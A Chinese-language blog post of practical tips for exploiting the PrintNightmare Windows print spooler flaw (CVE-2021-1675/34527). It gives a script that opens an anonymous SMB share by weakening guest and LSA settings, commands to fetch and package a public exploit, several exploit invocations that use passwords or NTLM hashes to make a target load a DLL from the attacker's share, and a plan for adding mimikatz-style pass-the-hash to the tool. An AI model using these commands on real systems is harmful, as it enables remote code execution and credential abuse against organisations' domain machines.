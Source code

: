 ```yaml
---
title: PrintNightmare 实战利用Tips
date: 2022-11-13 3:34:50
categories: 
- Develop
tags:
- 0/N Day
- PrintNightmare
- CVE-2021-1675
- CVE-2021-34527
---
```

# **概述**

**CVE-2021-1675 / CVE-2021-34527 这两个洞本质上就是一个洞，只是因为修复的问题分配了两个编号。具体的漏洞分析就不赘述了，很早就有人发过，没必要炒冷饭，这里只总结下实际使用时可能出现的问题，以及很多poc中不会提到的细节**

# 复现攻击环境

## 注意事项

### 1.域相关

目标机器为域内Windows Server机器时，攻击机必须为同一域内的机器；目标机器为非域环境Windows Server机器时，攻击机器为目标机器可以访问到的另一机器即可

> 加入域后的Windows系统访问外部资源会携带已登录的域用户凭证，所以未加入域且未提前指定凭据的的SMB就无法访问。因此攻击域内机器有此限制

### 2.SMBv1

攻击机器为Windows Server 2019及更高版本时，需要执行 `Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol`并重启去开启SMBv1，否则有可能出现rpc_s_access_denied的问题，攻击机器为2016及更低版本的系统时，可以直接使用 `Set-SmbServerConfiguration -EnableSMB1Protocol $true`开启SMBv1的支持

## 步骤

### 1.准备payload

在攻击机器创建C:\share文件夹，并将dll放入其中（此路径可根据需求修改，修改后下一步脚本自行对应修改）

### 2.开启SMB匿名共享

```powershell

#修改路径权限，使所有人可读
icacls C:\share\ /T /grant Anonymous` logon:F
icacls C:\share\ /T /grant Everyone:F
#创建名称为share路径为C:\share的SMB共享
New-SmbShare -Path C:\share -Name share -FullAccess 'ANONYMOUS LOGON','Everyone'
#启用guest用户
net user guest /active:yes
#覆盖已有的NullSessionPipes配置
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
#设置可以匿名访问共享
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
#设置Everyone权限包含匿名登录用户
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
#设置任何用户都可以通过网络获取本机的信息
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
#提取本地安全组策略
secedit /export /cfg gp.inf /quiet
#修改组策略中的指定权限
(Get-Content gp.inf) -replace "SeDenyNetworkLogonRight = Guest","SeDenyNetworkLogonRight = " | Set-Content "gp.inf"
#导入本地安全组策略
secedit /configure /db gp.sdb /cfg gp.inf /quiet
#更新本地安全组策略
CMD.EXE /C "gpupdate/force"
#清理文件
CMD.EXE /C "del gp.inf"
CMD.EXE /C "del gp.sdb"
```

注：此脚本修改自[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

### 3.准备exp

#### 选择exp

推荐exp为[CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)，主要优势在于可以使用hash进行攻击，现在越来越难搞到密码了，hash的场景更多

因为大部分目标环境不会有python环境，所以最好打包为exe使用

#### 打包exe

打包使用Windows Server 2008 R2机器，安装[Python3.8](https://www.python.org/ftp/python/3.8.10/python-3.8.10-amd64.exe)，[Git](https://github.com/git-for-windows/git/releases/download/v2.38.1.windows.1/Git-2.38.1-64-bit.exe)，之后执行以下命令

> *Windows Server 2008 R2以保证大部分系统能正常运行，Python版本推荐3.8.10，可低不可高*

```bash
git clone https://github.com/cube0x0/impacket
cd impacket
certutil -urlcache -split -f https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py CVE-2021-1675.py
pip3 install six pycryptodomex pyasn1 pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```

生成的文件在 `\impacket\dist\CVE-2021-1675.exe`

### 4.执行

示例：

```bash
CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"
```

# 武器化思路

按照上文的方法已经足够应付大多数攻击场景了，但是如果从武器化开发的角度来看，pyinstaller这东西还是太不优雅了，所以我们回头看向了另一份poc，[SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare)，对这份代码稍作修改即可实现使用hash验证身份的功能

## 1.背景介绍

Pass The Hash这项技术实现起来，有两种思路，一种是自己构造包然后发包完成验证，另一种是修改自己进程或线程内存中保存的身份验证信息并修改。

## 2.确定思路

为了方便开发，这里选用第二种方法。毕竟去翻RPC和SMB的文档是一个很让人头疼的事……

而第二种方法的典型案例就是mimikatz，所以首先使用mimikatz进行简单的测试

```text
sekurlsa::pth /user:John /domain:192.168.0.111 /ntlm:f0cff78ea8d2d87e5d1caccf01d0bd2f /run:"SharpPrintNightmare.exe"

注：为了方便测试，此处我已经修改SharpPrintNightmare代码，并写死了参数
```

可以发现思路可行，确定了patch的方案

mimikatz有一个C#的版本[SharpKatz](https://github.com/b4rtik/SharpKatz)，~~抄袭~~参考其中pth功能的实现代码即可

SharpKatz中的此部分代码基本完全由mimikatz的代码翻译而成，建议先看其中任意一个的代码了解下原理。

总结后需要对SharpPrintNightmare进行的修改为：

* 添加pth选项，进行参数判断
* 修改原项目的Impersonator类，如果使用pth就不再执行LogonUser函数，改为使用SharpKatz中的pth模块的[CreateProcess](https://github.com/b4rtik/SharpKatz/blob/87e8e6661999d19bbcae3c0623f78dc2a1a9b45f/SharpKatz/Module/Pth.cs#L34)函数（此处需要将SharpKatz的对应代码集成进来），注意将impersonate设置为true，以便使用当前线程去连接，而不是使用新进程（方便内存加载）
* [SharpKatz](https://github.com/b4rtik/SharpKatz)的pth中所需的内存查找的特征不全，需要参考mimikatz中的补全

确定了以上修改方案，再完善一下使用细节，以及对应的文本提示与错误反馈即可完成工具的武器化

## 3.成果

因为各种原因，就不放成品了，有兴趣的可以自己按照步骤修改一遍啦
